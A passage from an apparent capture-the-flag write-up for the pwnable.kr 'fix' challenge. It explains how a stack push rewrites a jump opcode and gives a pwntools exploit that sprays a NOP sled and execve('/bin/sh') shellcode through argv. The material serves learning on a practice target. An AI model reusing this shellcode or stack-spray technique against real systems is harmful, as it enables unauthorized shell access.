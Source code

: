 	so, `jns 0xcd0bb0f7` is a 32bit RELATIVE jump that jumps to `eip` + 0xcd0bb0f7.
	
	This is not a good address :( it will be some random unmapped address.
	
	But don't lose hope! when we get to the "`push   eax`", since `esp` is near the address of the opcode, it changes the opcode of the `jns` to
	
	0`f 89 e1 b0 00 00       jns    0xb0f7`
	
	so now it will jump to `eip` + 0xb0f7, which an address further up the stack! It will jump to our `argv` since we sprayed it all over the stack, and will run shellcode from some random address of `argv`.
	This is why we wrote a big NOP sled, so there'll be a higher probability of landing somewhere in the NOP sled and not in the middle of the shellcode :).
	
	
	---------------------- exploit code ----------------------------
	
	```python
	#!/usr/bin/env python3
	
	from pwn import *
	
	exe = ELF("./fix")
	
	context.binary = exe
	
	def conn():
	    if args.L or args.D:
	        r = process([exe.path] + argv)
	        if args.D:
	            gdb.attach(r, gdbscript=gdbscript)
	            time.sleep(3)
	    elif args.S:
	        r = gdb.debug(args=[exe.path] + argv, gdbscript=gdbscript)
	    else:
	        r = remote("pwnable.kr", 9001)
	
	    return r
	
	gdbscript = '''
	tbreak main
	b *shellcode+55
	continue
	'''.format(**locals())
	argv = [('\x90' * 500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69" + "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80") * 100]
	
	
	def main():
	    r = conn() # input 16 and then 15 (0x0f at index 16). this makes a jump to argv.
	    r.sendline('16')
	    r.sendline('15')
	
	    r.interactive()
	```
	wow! You could use both a big jump to `argv` and both the push `eax`. This is incredible !